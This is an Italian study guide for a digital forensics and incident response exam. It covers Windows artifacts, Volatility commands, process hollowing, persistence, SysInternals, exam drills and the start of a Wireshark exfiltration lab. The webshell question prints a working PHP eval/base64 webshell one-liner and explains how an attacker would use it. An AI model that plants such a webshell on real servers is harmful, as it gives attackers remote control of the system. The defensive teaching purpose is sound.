> **In pratica:** Un amministratore IT viene licenziato. L'azienda sospetta abbia copiato file dalla cartella "Bilanci" su una chiavetta USB prima di andarsene. Il dipendente nega. Gli investigatori forensi controllano le ShellBags: mostrano che la cartella "\\Clienti\\Bilanci" e' stata aperta 47 volte nell'ultima settimana di lavoro, con data e ora precisa. Poi controllano il registro: la chiavetta USB Kingston da 32 GB e' stata montata 10 minuti dopo. Infine Prefetch mostra che 7-Zip (software di compressione) e' stato eseguito subito dopo. La sequenza ShellBags → USB → 7-Zip = PROVA di furto dati.

---

>> ** PASS 2 CHECK: BLOCCO 6 (6 domande Q37-Q42):** Chiudi tutto. Rispondi a voce: (37) Quali operazioni minime di triage? (38) Di cosa si occupa la Memory Forensic? (39) Come acquisire RAM Linux? (40) Cos'e' il registro di Windows? (41) Come si analizza il registro? (42) Cosa sono le ShellBags?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 6:** Leggi ogni titolo e rispondi SENZA GUARDARE.

> ** 6/6 COMPLETATE (Blocco 6)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega le ShellBags come se fossero la cronologia di Esplora Risorse: "Windows ricorda TUTTE le cartelle che hai aperto, come le ha visualizzate, e quando. Anche se cancelli i file."

---

## BLOCCO 7: ARTEFATTI WINDOWS (Domande 43-49)

> ** STEP ZERO: 30-SECOND PREVIEW:** 7 domande: ShimCache per eseguibili lanciati (Q43), Event Logs eventi di sistema (Q44), Prefetch prova esecuzione programmi (Q45), cos'e' un processo/PID (Q46), come cercare processo sospetto (Q47), Amcache con hash SHA1 (Q48), acquisizione Linux con Guymager/dd (Q49). **Say aloud:** "Block 7 is about Windows forensic artifacts."



**43) Cosa e' la ShimCache?**
Application Compatibility Cache. Introdotta da Windows XP. Migliora la compatibilita' delle applicazioni. Dal punto di vista forense: registra file eseguibili lanciati, anche se poi cancellati.

> **In pratica:** Indaghi su un ransomware che ha colpito un'azienda il 15 marzo. Controlli ShimCache: ransomware.exe NON compare (l'attaccante ha cancellato il file). Controlli Prefetch: RANSOMWARE.EXE-4A2B3C01.pf creato il 15 marzo alle 14:32, eseguito 1 volta. Controlli Amcache: ransomware.exe, SHA1: a3f5b..., primo eseguito il 15 marzo 14:32, installato da C:\Users\mario\Downloads\fattura.pdf .exe. Hai TRE prove indipendenti che confermano l'esecuzione del malware, piu' l'hash per VirusTotal.

**44) Cosa sono gli Event Logs?**
File binary con struttura a database. Registrano tutti gli eventi accaduti nel sistema. Identificati da un codice numerico (Event ID). Permettono di monitorare l'attivita' del sistema.

> **In pratica:** Event ID 4624 = login riuscito. Event ID 4625 = login fallito. Se vedi 50 ID 4625 in un minuto da un IP esterno = attacco brute force in corso. I log sono la CRONACA di tutto quello che succede sul sistema.

**45) Cosa e' il Prefetch?**
Funzionalita' che accelera il caricamento delle applicazioni avviate frequentemente. Monitora file e DLL caricati in memoria. File Prefetch in C:\Windows\Prefetch. Dal punto di vista forense: prova dell'esecuzione di un programma.

> **Collegamento:** ShimCache (Q43) e Prefetch (Q45) sono DUE prove indipendenti dell'esecuzione di un programma. Se trovi il malware in ENTRAMBI, hai una prova solidissima. Il Prefetch ti dice anche QUANTE volte e' stato eseguito e QUANDO e' stata l'ultima esecuzione.

**46) Cosa e' un processo di Windows?**
Un'istanza in esecuzione di un'applicazione. Ha bisogno di risorse (memoria, CPU, file aperti). Identificato da un PID (Process Identifier), numero univoco assegnato dal sistema operativo.

> **In pratica:** Apri Chrome 3 volte = vedi 3 processi chrome.exe con PID diversi. Il PID e' come il numero di targa di un'auto: identifica UNIVOCAMENTE quel processo in quel momento.

> **In pratica:** Apri Process Explorer. Vedi chrome.exe (PID 1234) con 8 thread, 47 handle, 230 MB di RAM, lanciato da explorer.exe (PID 1000), utente mario.rossi. Poi vedi un altro chrome.exe (PID 6789): stesso nome, ma sta in C:\\Temp, lanciato da un file .doc macro, utente SYSTEM, e ha una connessione TCP verso 91.x.x.x:1337. QUESTO e' il processo sospetto. Il PID e' il suo numero di targa. Se lo killi (taskkill /PID 6789), solo QUEL processo muore, Chrome legittimo (PID 1234) continua a funzionare.

**47) Come si cerca un processo sospetto?**
Identificazione processi sconosciuti (nomi che richiamano applicazioni note), verifica utenti associati, privilegi elevati o utenti insoliti. Visualizzare proprieta': percorso eseguibile, thread, DLL caricate. Analisi connessioni di rete (netstat). Processi ad avvio automatico (Autoruns). Process Tree (relazioni padre-figlio).

> **In pratica:** L'attaccante rinonima malware.exe in svchost.exe e lo mette in C:\Windows\Temp. Lo esegue. Tu apri Process Explorer e vedi due svchost.exe. Quello legittimo sta in C:\Windows\System32, padre services.exe, utente SYSTEM. Quello malevolo sta in C:\Windows\Temp, padre explorer.exe, utente mario.rossi. Apri le proprieta': il legittimo ha la firma digitale di Microsoft, il malevolo no. Fai click destro, "Search Online": VirusTotal dice 58/60 positivo. Poi con Autoruns scopri che si riavvia da HKCU\Run\WindowsUpdate. RIMOSSO.

**48) Cosa e' l'Amcache?**
Application Compatibility Cache. File di registro (Amcache.hve) che memorizza metadati sull'esecuzione di programmi. Introdotto con Windows 7. Contiene SHA1 dell'eseguibile (confrontabile con VirusTotal).

> **Collegamento:** Amcache (Q48) vs ShimCache (Q43): ENTRAMBI registrano esecuzione di programmi. Ma Amcache ha il VANTAGGIO di contenere l'hash SHA1 del file. Puoi prendere quell'hash, incollarlo su VirusTotal, e scoprire immediatamente se e' malware.

**49) Quale applicazione si utilizza per acquisire in modo forense con Linux?**
GUYMAGER. In casi particolari si puo' utilizzare DD (comando nativo).

> **In pratica:** Guymager e' l'equivalente Linux di FTK Imager. Ha interfaccia grafica, gestisce i write blocker, calcola hash automaticamente. DD e' il comando a riga di comando: piu' grezzo ma sempre disponibile su qualsiasi sistema Linux.

---

>> ** PASS 2 CHECK: BLOCCO 7 (7 domande Q43-Q49):** Chiudi tutto. Rispondi a voce: (43) Cos'e' la ShimCache? (44) Cosa sono gli Event Logs? (45) Cos'e' il Prefetch? (46) Cos'e' un processo/PID? (47) Come si cerca un processo sospetto? (48) Cos'e' l'Amcache? (49) Come acquisire in modo forense con Linux?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 7:** Leggi ogni titolo e rispondi SENZA GUARDARE.

> ** 7/7 COMPLETATE (Blocco 7)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega ShimCache, Prefetch e Amcache come TRE testimoni: "La ShimCache dice 'l'ho visto passare'. Il Prefetch dice 'l'ho visto girare 3 volte'. L'Amcache dice 'ecco la sua foto segnaletica (hash)'."

---

## BLOCCO 8: NETWORK FORENSIC, VOLATILITY, HASH (Domande 50-55)

> ** STEP ZERO: 30-SECOND PREVIEW:** 6 domande: Network Forensic analisi traffico (Q50), Volatility netscan connessioni attive (Q51), Volatility malfind codice iniettato (Q52), comando hash SHA256 (Q53), Process Hollowing tecnica (Q54), WebShell PHP (Q55). **Say aloud:** "Block 8 is about network forensic, Volatility commands, hashing, and attack techniques."



**50) Cosa e' la Network Forensic?**
Branca della digital forensic che si occupa della ricerca, raccolta, acquisizione e analisi forense dei dati che coinvolgono piu' sistemi collegati in rete. Fondamentale per individuare attacchi, tracciare il percorso dell'attaccante.

> **In pratica:** Dicembre 2023: un'azienda scopre che dati sensibili sono usciti dalla rete. Il team forense analizza il pcap del firewall. Trovano traffico HTTPS verso 185.142.x.x alle 2:37 del mattino per 8 giorni consecutivi (BEACONING: il malware chiama il C2 ogni notte alla stessa ora). Usano Wireshark per esportare gli oggetti HTTP e trovano un file .zip da 4.7 GB inviato il 20 dicembre. Il JA3 fingerprint del client corrisponde a una variante nota di Cobalt Strike. Geolocalizzazione IP: hosting provider in Russia. LA NETWORK FORENSIC HA TROVATO L'ESFILTRAZIONE.

**51) Quale e' la sintassi di Volatility 2 per vedere le connessioni di rete attive?**
`volatility_2.6_win64_standalone.exe -f dump.mem --profile=profilo netscan | findstr ESTABLISHED` (oppure `vol.py`). Il comando netscan mostra tutte le connessioni di rete; filtrando per ESTABLISHED vedi solo quelle attive.

> **In pratica:** Ti dice: il processo malware.exe (PID 1234) ha una connessione ATTIVA verso l'IP 185.x.x.x sulla porta 4444. CONNESSO IN QUESTO MOMENTO. E' la prova che il C2 e' ancora attivo.

**52) Quale e' il comando Volatility 2 per trovare processi con possibile malware?**
`volatility_2.6_win64_standalone.exe -f dump.mem --profile=profilo malfind` (oppure `vol.py`). Malfind cerca regioni di memoria con permessi sospetti (PAGE_EXECUTE_READWRITE) che indicano codice iniettato.

> **In pratica:** Un processo legittimo (es. explorer.exe) ha una regione di memoria con permessi PAGE_EXECUTE_READWRITE (eseguibile E scrivibile). Questo NON e' normale. Malfind ti dice: "explorer.exe ha codice iniettato a questo indirizzo di memoria". E' la PROVA del Process Hollowing (Q54).

**53) Quale e' il comando per effettuare un hash SHA256 di un file?**
`Certutil -hashfile nomefile SHA256`. Su Linux: `sha256sum nomefile`.

> **In pratica:** Prima di analizzare un file sospetto, calcoli il suo hash. Lo incolli su VirusTotal. Se 50/60 antivirus lo riconoscono come malware, hai la conferma senza nemmeno doverlo eseguire.

**54) Cosa e' un Process Hollowing?**
Tecnica che svuota in tutto o in parte un processo legittimo del suo codice per sostituirlo con codice malevolo. Il processo sembra legittimo ma esegue malware.

> **In pratica:** Un attaccante lancia notepad.exe in modo sospeso (CREATE_SUSPENDED), svuota il suo codice legittimo, e ci inietta un trojan bancario. Tu vedi notepad.exe nella lista processi e pensi "normale". Ma Volatility malfind ti dice: "notepad.exe, PID 5678, regione memoria a 0x00400000: PAGE_EXECUTE_READWRITE, 245 KB di codice sospetto". Un processo normale NON ha permessi EXECUTE+READ+WRITE sulla stessa pagina. Questo e' Process Hollowing.

> **Collegamento:** Il Process Hollowing (Q54) si SCOVA con Volatility malfind (Q52). Senza malfind, vedresti solo un processo legittimo e non troveresti mai il malware. Q51 (netscan) completa il quadro mostrando la connessione C2 del processo hollowed. Q46 (PID) e Q47 (processo sospetto) sono i concetti base per capire COSA stai guardando in Volatility.

**55) Cosa e' una WebShell?**
Interfaccia shell-like che consente l'accesso remoto a un server web. Spesso e' un file PHP caricato dall'attaccante tramite upload non filtrato. Contiene funzioni come eval(), base64_decode(), shell_exec().

> **In pratica:** Un attaccante carica shell.php tramite un form di upload su un sito WordPress non aggiornato. Il file contiene: `<?php eval(base64_decode($_POST['cmd'])); ?>`. Ora l'attaccante manda una richiesta POST a shell.php con cmd=cGlk ("pwd" in base64). Il server esegue il comando e restituisce /var/www/html/. L'attaccante ora ha una shell interattiva sul server web, con i privilegi dell'utente www-data. Puo' leggere file di configurazione, rubare il database, installare altri malware. Le funzioni da cercare: eval(), base64_decode(), system(), shell_exec(), exec(), passthru().

---

>> ** PASS 2 CHECK: BLOCCO 8 (6 domande Q50-Q55):** Chiudi tutto. Rispondi a voce: (50) Cos'e' la Network Forensic? (51) Sintassi Volatility netscan? (52) Comando Volatility malfind? (53) Comando hash SHA256? (54) Cos'e' il Process Hollowing? (55) Cos'e' una WebShell?: Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK: BLOCCO 8:** Leggi ogni titolo e rispondi SENZA GUARDARE.

> ** 6/6 COMPLETATE (Blocco 8)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega il Process Hollowing come un cavallo di Troia: "Il malware prende un processo legittimo (notepad.exe), lo svuota, e ci mette dentro il suo codice. Sembra notepad, ma e' un trojan."

---

## BLOCCO 9: PERSISTENZA, TOOL FORENSI (Domande 56-60)

> ** STEP ZERO: 30-SECOND PREVIEW:** 5 domande: sistemi di persistenza malware (Q56), Autopsy per analisi PC/mobile (Q57), Wireshark per traffico di rete (Q58), Export Objects HTTP (Q59), SysInternals suite Microsoft (Q60). **Say aloud:** "Block 9 is about malware persistence and forensic tools."



**56) Quali sono i piu' comuni sistemi di persistenza di un malware su un PC?**
Registro di sistema (chiavi Run per avvio automatico), Task pianificati (esecuzione a orari prestabiliti), Backdoor (accesso remoto continuo), Servizi Windows (esecuzione come servizio), Driver kernel.

> **In pratica:** Settembre 2024: un ransomware colpisce un'azienda manifatturiera alle 10:30. L'IT di turno vede i file rinominati in .locked. Apre Process Explorer (SysInternals): trova un processo encrypt.exe lanciato da un utente alle 10:28. Apre TCPView: encrypt.exe ha una connessione attiva verso 91.x.x.x:8443 (C2). Apre Autoruns: encrypt.exe e' registrato in HKLM\Run per riavviarsi. L'IT fa: 1) Kill processo encrypt.exe, 2) Blocca IP 91.x.x.x sul firewall, 3) Elimina la chiave di registro HKLM\Run\EncryptService, 4) Cancella encrypt.exe da C:\ProgramData, 5) Ripristina i file dal backup Veeam. Rimozione completata in 25 minuti.

**57) Con quale software open source analizzerebbe il contenuto di un PC e di un dispositivo mobile?**
Autopsy. E' free, modulare, basato su Sleuth Kit. Analizza dischi, partizioni, file system, timeline, file cancellati.

> **In pratica:** Apri Autopsy, carichi l'immagine forense del disco di un PC sospetto. Nel pannello sinistro vedi: File Views (file system navigabile), Results (file per tipo: email, chat, web, documenti), Tools (timeline, ricerca parole chiave). Vai su "Deleted Files": vedi una lista di file in rosso. Trovi invoice_2024.pdf cancellato il giorno dopo le dimissioni del CFO. Clicchi: Autopsy recupera il file perche' i dati non sono stati sovrascritti. Contiene i dettagli di un bonifico da 500.000 EUR verso un conto alle Cayman. PROVA TROVATA.

**58) Con quale software analizzerebbe del traffico di rete?**
Wireshark (o Network Miner). Wireshark e' l'analizzatore di protocollo piu' usato al mondo. Cattura e analizza pacchetti, filtra per protocollo, ricostruisce sessioni TCP.

> **Collegamento:** Wireshark e' lo strumento del Lab 1 (esfiltrazione dati) e del Lab 5 (analisi .pcap). E' ESSENZIALE saperlo usare per l'esame pratico.

**59) Con Wireshark, quale e' la funzione che estrae un file dal flusso di dati?**
File > Export Objects > HTTP (o dal menu' File). Wireshark identifica automaticamente i file trasmessi via HTTP e permette di salvarli.

> **In pratica:** In un .pcap di 50 MB trovi centinaia di pacchetti. Con Export Objects HTTP vedi subito: "15:32 - inviato data.zip (32 MB) verso IP 185.x.x.x". Estrarlo dal flusso e' la PROVA dell'esfiltrazione.

**60) Cosa e' SysInternals?**
Suite di utility Microsoft a disposizione di professionisti IT per gestire, risolvere problemi e diagnosticare sistemi Windows. Include Process Explorer, Autoruns, Procmon, TCPView.

> **In pratica:** Process Explorer = task manager avanzato (vedi processo padre, percorso, hash). Autoruns = TUTTO cio' che si avvia automaticamente (registro, servizi, task, driver, DLL). Procmon = registra in tempo reale TUTTE le operazioni su file, registro, rete. TCPView = mappa grafica delle connessioni di rete attive. Questi 4 tool sono gli strumenti del Lab 3 (ricerca e rimozione malware).

---

>> ** PASS 2 CHECK — BLOCCO 9 (5 domande Q56-Q60):** Chiudi tutto. Rispondi a voce: (56) Quali sistemi di persistenza malware? (57) Con quale software analizzi PC e mobile? (58) Con quale software analizzi traffico di rete? (59) Come estrai un file dal flusso HTTP? (60) Cos'e' SysInternals? — Metti • sulle domande che sbagli.

>> **PASS 3 PANORAMIC CHECK — BLOCCO 9:** Leggi ogni titolo e rispondi SENZA GUARDARE.

> ** 5/5 COMPLETATE (Blocco 9)! PREMIO:** Cioccolato. Cammina. Bevi.

> ** INSEGNA AL MURO:** Spiega i 4 tool SysInternals: "Process Explorer e' il tuo binocolo, Autoruns e' la mappa delle trappole, Procmon e' la videocamera di sorveglianza, TCPView e' il registratore delle chiamate."

---

## MAPPA RAPIDA: 60 DOMANDE → 9 BLOCCHI

| Blocco | Domande | Tema |
|--------|---------|------|
| 1 | 1-5 | Emergenza, Incidente, ISO 27035 |
| 2 | 6-17 | ISO 31000, Risk Assessment |
| 3 | 18-22 | ISO 27005, RMP, Disaster Recovery |
| 4 | 23-28 | Threat Intel, Hunting, Kill Chain, EDR |
| 5 | 29-36 | Digital Forensic, Acquisizione, ISO 27037 |
| 6 | 37-42 | Triage, Memory Forensic, Registro |
| 7 | 43-49 | Artefatti Windows (ShimCache, Event Logs, Prefetch, Amcache) |
| 8 | 50-55 | Network Forensic, Volatility, Hash, WebShell |
| 9 | 56-60 | Persistenza, Autopsy, Wireshark, Sysinternals |

---

## COLLEGAMENTI CHIAVE: COME SI CONNETTONO I 9 BLOCCHI

> **All'esame il professore valuta se sai COLLEGARE gli argomenti, non solo ripetere le singole risposte.** Ecco i collegamenti piu' importanti da sapere:



| Collegamento | Spiegazione |
|-------------|-------------|
| **B1 → B2** | L'emergenza (B1) si previene con il Risk Management (B2). ISO 31000 e' il "come". |
| **B2 → B3** | Il RM teorico (B2) diventa pratico con RMP, DR e backup (B3). |
| **B3 → B4** | Per identificare i rischi (B3) devi conoscere le minacce (B4): Threat Intel, Kill Chain. |
| **B4 → B5** | Quando l'attacco avviene (B4), serve la Digital Forensic (B5) per investigare. |
| **B5 → B6** | La forensic (B5) si fa con strumenti concreti: triage, RAM, registro (B6). |
| **B6 → B7** | RAM e registro (B6) rivelano gli artefatti Windows (B7): ShimCache, Prefetch, Amcache. |
| **B7 → B8** | Gli artefatti locali (B7) si collegano alla rete (B8): Network Forensic, Volatility netscan. |
| **B8 → B9** | Trovato il malware (B8), bisogna capire come persiste (B9) e con quali tool rimuoverlo. |
| **B9 → B1** | L'analisi fatta (B9) alimenta la fase di Apprendimento (B1): cosa hai imparato? Come eviti che succeda di nuovo? |

---

> **Come studiare:** Leggi la domanda, chiudi gli occhi, rispondi a voce. Non rileggere passivamente.
> **All'esame orale:** 3 domande prese da queste 60. Rispondi in modo strutturato: definizione + esempio pratico + collegamento con altri concetti del corso.

---

## EMERGENCY CRAMMING — 30 minuti prima dell'esame (Danno minimo)

> **Se hai SOLO 30 minuti. Questo NON e' studio ideale. E' minimizzazione del danno.**



| Step | Cosa fare | Tempo |
|------|-----------|------|
| 1 | Leggi SOLO i titoli delle 60 domande ad alta voce. NON leggere le risposte. | 10 min |
| 2 | Per ogni titolo, di' UNA frase. Se non la sai, leggi SOLO la prima riga della risposta. | 15 min |
| 3 | Chiudi gli occhi. Elenca i 9 blocchi che ricordi. Quello che non ricordi NON lo imparerai in 5 minuti. | 3 min |
| 4 | 4-4-4-4 breathing: inspira 4 sec, tieni 4, espira 4, pausa 4. Ripeti 5 volte. Bevi acqua. | 2 min |

> **NON fare:** leggere tutto il testo (il panico blocca l'assorbimento). NON studiare nuovi concetti. NON guardare il telefono.

---

## I 9 IF-THEN PER L'ESAME ORALE — Una frase per ogni blocco

> **Il prof dice una parola chiave. Tu rispondi con la frase preparata. Memoria prospettica: trigger → risposta.**

| SE il prof dice... | ALLORA tu rispondi... |
|-------------------|----------------------|
| **"Emergenza"** o **"Incidente"** | "L'emergenza puo' essere fisica o logica. La ISO 27035 definisce 5 fasi di gestione: Preparazione, Identificazione, Valutazione, Risposta, Apprendimento. La gestione e' olistica, la risposta e' tecnica e immediata." |
| **"ISO 31000"** o **"Risk Assessment"** | "La ISO 31000 e' il framework per la gestione del rischio. Il Risk Assessment ha 3 fasi: Identification, Analysis, Evaluation. Poi si passa al Risk Treatment. La ISO 31010 fornisce le tecniche: brainstorming, SWIFT, BIA." |
| **"RMP"** o **"Disaster Recovery"** | "Il RMP e' il documento formale che descrive tutte le attivita' di gestione dei rischi. Il DR si occupa del ripristino dei sistemi IT dopo un disastro. I backup possono essere hot, warm o cold. La VA si integra nel RM per identificare vulnerabilita'." |
| **"Threat"** o **"Kill Chain"** | "La Kill Chain ha 7 fasi: Recon, Weaponization, Delivery, Exploitation, Installation, C2, Actions. La Threat Intelligence raccoglie informazioni sugli attaccanti. Il Threat Hunting cerca proattivamente minacce nella rete. L'EDR monitora gli endpoint 24/7." |
| **"Digital Forensic"** o **"ISO 27037"** | "La Digital Forensic ha 5 fasi: identificazione, acquisizione, conservazione, analisi, presentazione. L'acquisizione puo' essere Live o Post Mortem. La ISO 27037 da' linee guida per le acquisizioni. La prova forense deve avere pertinenza, affidabilita', sufficienza, autenticita'." |
| **"Triage"** o **"RAM"** o **"Registro"** | "Le operazioni minime di triage sono: dump RAM, analisi registro, Event Logs, Prefetch, processi, Amcache, ShimCache. La Memory Forensic studia i dati nella RAM. Il registro di Windows e' un database gerarchico analizzabile con regedit o RegRipper." |
| **"ShimCache"** o **"Prefetch"** o **"PID"** | "ShimCache e Prefetch provano l'esecuzione di un programma. Amcache contiene l'hash SHA1. Un processo e' identificato dal PID. Per trovare un processo sospetto: guarda nome, percorso, firma, connessioni di rete, relazioni padre-figlio." |
| **"Network Forensic"** o **"Volatility"** | "La Network Forensic analizza il traffico di rete. Volatility netscan mostra le connessioni attive. Volatility malfind trova codice iniettato. L'hash SHA256 si calcola con certutil o sha256sum. Process Hollowing svuota un processo legittimo e lo riempie di codice malevolo." |
| **"Persistenza"** o **"Wireshark"** o **"SysInternals"** | "La persistenza si ottiene con registro (Run), task pianificati, servizi, backdoor, driver. Autopsy analizza PC e mobile. Wireshark analizza il traffico di rete. Export Objects HTTP estrae file dal flusso. SysInternals include Process Explorer, Autoruns, Procmon, TCPView." |

> **Come usarli:** Leggi la colonna di SINISTRA ad alta voce. Rispondi con la colonna di DESTRA a memoria. Se sbagli, ripeti 3 volte. Sono 9 frasi. 9 minuti totali. Coprono TUTTO l'esame.

---

## LAB 1: Analisi forense Windows con **esfiltrazione** dati



> **Collegamento alla teoria:** Questo lab applica Q29 (Digital Forensic), Q31 (acquisizione Post Mortem), Q50 (Network Forensic), Q53 (hash SHA256), Q55 (WebShell), Q58 (Wireshark), Q59 (Export Objects HTTP).

**Scenario:** Un Windows ha subito un furto di dati. Devi trovare cosa e' stato rubato e dove e' finito.

**Il prof ti da':** File **.pcap** del traffico di rete + immagine disco **.E01** gia' acquisita.

**[DIGITA]: Wireshark (comandi da eseguire in ordine)**


```
Apri Wireshark (icona blu pinna di squalo)

File > Open > seleziona il file .pcap > Open

Statistics > Summary          (panoramica: durata, MB totali)
Statistics > Protocol Hierarchy   (quali protocolli sono presenti)

Barra filtro verde (Apply a display filter): digita e premi INVIO:
  http                              (traffico web non cifrato)
  http.request.method == "POST"     (upload: l'esfiltrazione USA POST)
  dns                               (domini risolti)
  tcp.port == 4444 or tcp.port == 8080 or tcp.port == 1337

Statistics > Conversations > TCP  > clicca colonna Bytes per ordinare

Click DESTRO su pacchetto sospetto > Follow > TCP Stream

File > Export Objects > HTTP > Save All
```

**Cosa cercare e perché (da spiegare a voce mentre fai i comandi):**

- **Protocol Hierarchy**: HTTP in rete aziendale = RED FLAG (dovrebbe essere tutto HTTPS). Il traffico non cifrato espone URL, parametri e dati in chiaro: come spedire una lettera senza busta. FTP, IRC, Telnet = protocolli che non dovrebbero esistere in una rete moderna. **Teoria: Q50 Network Forensic, Q58 Wireshark.**

